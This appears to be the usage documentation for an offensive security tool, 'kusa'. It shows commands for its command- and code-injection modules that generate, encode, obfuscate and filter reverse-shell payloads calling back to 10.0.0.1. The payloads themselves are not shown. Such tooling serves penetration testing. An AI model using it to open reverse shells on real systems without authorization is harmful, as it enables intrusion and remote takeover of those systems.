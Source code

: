 ### Injectable commands (`cmd`)

Options for command injection/execution module.

<details><summary><strong>Click here to expand full usage</strong></summary></details>


#### Examples
```bash
# List reverse shells connecting to 10.0.0.1 (port 4444 by default)
kusa cmd 10.0.0.1
```
```bash
# List reverse shells connecting to 10.0.0.1:1337
kusa cmd 10.0.0.1 1337
```

```bash
# Copy last reverse shell payload to clipboard
kusa cmd 10.0.0.1 -c
```
```bash
# Copy reverse shell with index 2 to clipboard
kusa cmd 10.0.0.1 -c 2
```
```bash
# URL encode reverse shell
kusa cmd 10.0.0.1 --enc url
```
```bash
# Base64 encode and then url encode reverse shell
kusa cmd 10.0.0.1 --enc base64 url
```
```bash
# Obfuscate payloads
kusa cmd 10.0.0.1 --obf
```
```bash
# Obfuscated and filter away '/' and '$' characters in payload
kusa cmd 10.0.0.1 --obf -b '/$'
```



### Injectable code (`code`)

Options for code injection/execution module.

<details><summary><strong>Click here to expand full usage</strong></summary></details>


#### Examples
```bash
# List reverse shells connecting to 10.0.0.1 (port 4444 by default)
kusa code 10.0.0.1
```
```bash
# List reverse shells connecting to 10.0.0.1:1337
kusa code 10.0.0.1 1337
```

